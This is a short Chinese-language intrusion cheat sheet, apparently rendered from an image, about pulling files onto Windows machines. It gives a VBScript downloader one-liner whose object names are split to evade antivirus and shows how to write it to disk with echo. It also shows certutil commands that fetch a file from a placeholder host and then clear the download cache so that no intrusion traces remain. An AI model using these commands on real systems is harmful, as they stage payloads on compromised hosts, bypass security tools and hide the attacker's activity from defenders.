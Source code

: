 ```
set a=createobject("adod"+"b.stream"):set w=createobject("micro"+"soft.xmlhttp"):w.open"get",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2

# 创建对象a【"adod"+"b.stream"等同于adodb.stream，拆分是为了免杀】
# get传输
# 参数为0
# 表示下载0，保存到1的地方
```

cmd运行：

```
cscript a.vbs http://www.xx.com/haha.txt c:\b.txt
cscript a.vbs [参数0：http://www.xx.com/haha.txt] [参数1：c:\b.txt]
# 下载0保存到1
```

或cmd使用echo直接写：

```
echo set a=createobject("adod"+"b.stream"):set w=createobject("micro"+"soft.xmlhttp"):w.open"get",wsh.arguments(0),0:w.send:a.type=1:a.open:a.write w.responsebody:a.savetofile wsh.arguments(1),2 >> a.vbs
```

容易被杀毒软件查到



## cmd,certutil下载文件：

```
certutil -urlcache -split -f http://www.xx.com/haha.txt

# 会下载到本目录
```



有一个弊端：
每次下载的时候，都有留存，导致留下入侵痕迹，所以每次下载之后，都要清理痕迹:

```
certutil -urlcache -split -f http://www.xx.com/haha.txt delete
```



除了下载文件还可以校验hash值：

```
certutil -hashfile c:\xxx.exe
```

如果文件被动过，hash值就会改变



除了下载文件还可以加密解密文件：

```
certutil -encode c:\haha.txt c:\haha-en.txt
certutil -decode c:\haha-en.txt c:\haha-de.txt
```
